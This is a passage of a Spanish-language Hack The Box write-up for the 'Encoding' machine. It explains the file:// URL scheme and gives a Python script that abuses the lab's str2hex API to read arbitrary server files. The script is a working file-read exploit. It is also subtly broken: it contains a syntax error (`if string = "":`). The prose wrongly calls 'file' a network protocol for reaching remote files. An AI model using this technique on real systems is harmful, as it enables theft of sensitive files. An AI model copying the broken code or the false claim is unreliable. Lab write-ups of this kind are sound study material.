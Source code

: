> El protocolo "file" es un protocolo de red que se utiliza para acceder a archivos almacenados en un sistema local o remoto. Este protocolo se integra con el sistema de archivos y permite a los programas acceder a archivos a través de la red como si estuvieran en el sistema local.

> Sin embargo, esta integración puede resultar en una vulnerabilidad si no se implementa de forma segura. Por ejemplo, si una aplicación permite a los usuarios especificar una URL que incluya el protocolo "file", un atacante puede intentar acceder a archivos sensibles en el sistema remoto. Por lo tanto, es importante implementar medidas de seguridad adecuadas para proteger el sistema y los archivos contra posibles ataques.

![](/assets/img/HTB/Encoding/web2.png)

El ejemplo de código en Python que se proporciona permite conectarse fácilmente a la API de la plataforma y obtener los resultados en el formato que eligamos.

![](/assets/img/HTB/Encoding/api.png)

Crearemos un script en python3 para hacer más rápido este proceso

```py
#!/usr/bin/python3

import requests, json, sys

if len(sys.argv) < 2:
    print(f"\nUso: python3 {sys.argv[0]} <archivo>\n")
    sys.exit(1)

json_data = {"action": "str2hex", "file_url": f"file://{sys.argv[1]}"}
r = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
json = json.loads(r.text)
string = json['data']

if string = "":
    print("\nEl archivo especificado no existe\n")
    sys.exit(1)
bytes = bytes.fromhex(string)

f = bytes.decode()
print(f.strip())
```